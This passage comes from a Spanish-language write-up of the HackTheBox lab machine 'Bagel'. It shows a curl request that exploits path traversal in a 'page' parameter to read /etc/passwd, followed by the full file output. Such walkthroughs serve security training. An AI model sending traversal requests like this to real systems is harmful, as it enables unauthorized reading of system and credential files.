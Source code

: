 ![Write-up Image](images/Screenshot_1.png)

## Directory Path Traversal -> Local File Inclusion
Como podemos ver el parámetro `page` pinta turbio, ya que se le está pasando un archivo directamente, podemos comprobar si es vulnerable a Path Traversal y vemos que si, muy básico todo por ahora.

```console
curl http://bagel.htb:8000/\?page\=../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
```